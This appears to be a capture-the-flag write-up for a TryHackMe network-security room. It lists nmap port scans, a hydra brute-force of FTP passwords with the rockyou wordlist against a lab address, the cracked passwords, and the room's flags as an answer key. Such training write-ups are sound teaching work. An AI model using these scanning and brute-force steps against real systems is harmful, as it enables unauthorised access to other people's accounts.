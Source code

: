 ```yaml
---
title:  "THM: Net Sec Challenge"
date:   2024-03-02 22:00:00 +0000
categories: [Network Security]
tags: [Network Security]
---
```

---

![image](/assets/img/Net-Sec-Challenge.png)

---
Ref: 

- [THM: Net Sec Challenge](https://tryhackme.com/room/netsecchallenge)

- [Link](https://www.youtube.com/watch?v=_s2oDTnsb7M)
---

Task 1  
---

1. What is the highest port number being open less than 10,000?
![img](/assets/img/Net-Sec-Challenge01.png)
[Nmap-Port Scan-02](https://szehoyeu.github.io/posts/nmap02-Basic-Port-Scans/)
   ```
   nmap -p1-10000 10.10.150.205
   ```
   ```
   Answer : 8080
   ```
---

2. There is an open port outside the common 1000 ports; it is above 10,000. What is it?
```
nmap -p 10000-65535 10.10.43.179
```
```
Answer : 10021
```

---

3. How many ```TCP``` ports are open?
```
Nmap -sT 10.10.150.205
```
![img](/assets/img/Net-Sec-Challenge03.png)
```
Answer format: 6
```
4. What is the flag hidden in the HTTP server header?
![img](/assets/img/Net-Sec-Challenge04.png)
```
Answer : THM{web_server_25352}
```

5. What is the flag hidden in the SSH server header?
   ![img](/assets/img/Net-Sec-Challenge05.png)
   ```
   Answer : THM{946219583339}
   ```
---

6. We have an FTP server listening on a nonstandard port. What is the version of the FTP server?
![img](/assets/img/Net-Sec-Challenge06.png)
```
Answer : *vsftpd 3.0.3
```

7. We learned two usernames using social engineering: eddie and quinn. What is the flag hidden in one of these two account files and accessible via FTP?
```
hydra -l eddie -P /usr/share/wordlists/rockyou.txt ftp://10.10.43.179:10021

Eddie=> jordan
Quinn=> andrea
```
![img](/assets/img/Net-Sec-Challenge07.png)
```
Answer : THM{321452667098}
```

---

8. Browsing to https://10.10.150.205:8080 displays a small challenge that will give you a flag once you solve it. What is the flag?

Answer : THM{f7443f99}


```
nmap -sN 10.10.43.179

```

![img](/assets/img/Net-Sec-Challenge08.png)

---


